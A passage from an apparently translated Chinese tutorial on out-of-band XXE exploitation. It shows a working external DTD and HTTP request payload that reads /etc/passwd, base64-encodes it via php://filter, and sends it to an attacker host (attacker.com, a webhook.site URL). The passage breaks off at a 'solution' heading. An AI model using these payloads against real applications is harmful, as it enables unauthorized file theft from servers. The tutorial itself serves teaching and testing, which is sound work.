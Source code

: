 这里，参数实体被用于泄露数据。这是在实体内定义实体的示例，参数化实体%file 在%eval 中被引用。因此，/etc/hostname 的内容添加为请求的一部分，并发送给攻击者。当请求被接收时，我们就能查看到主机名。

[![](assets/1698897039-e6720049c639a6f43139b83d7088ec0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210501135030-236cc338-aa41-1.png)

主机名是一小段文字，因此很容易检索。但是，如果是较大的文件呢，如`/etc/passwd`。它还有各种各样的坏字符会破坏您的 http 请求。在这个情况下，最简单的解决方案是对有效负载进行 base64 编码。

让我们看看如何做到这一点。

在[http://attacker.com/xxe.dtd上创建一个外部DTD](http://attacker.com/xxe.dtd%E4%B8%8A%E5%88%9B%E5%BB%BA%E4%B8%80%E4%B8%AA%E5%A4%96%E9%83%A8DTD)

```bash
<!ENTITY % all "<!ENTITY &#x25; req SYSTEM 'https://webhook.site/b16e2541-f40a-4641-9e12-286439217267/%file;'>">
```

在易受攻击的应用程序中：

```bash
POST /vuln
Host: 1.1.1.1
User-Agent: ....
Content-Length: 123

<?xml version=1.0"?>
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
<!-- load dtd file -->
%dtd;
<!-- Resolve the nested external entity -->
%all;
<!-- resolve the external entity req along with file reference -->
%req;
]>

<app>
<user>foo</user>
<pass>bar</pass>
```

这将会发送携带 base64 编码的`/etc/passwd`的内容的 get 请求。然后可以进一步解码以获得原始的文件内容。

但是等一下！！！,这里可能存在由于 base64 编码的字符串太长而无法作为 http 请求一部分的来发送的情况。反馈会说 URI 太长。

## 解决方案！！
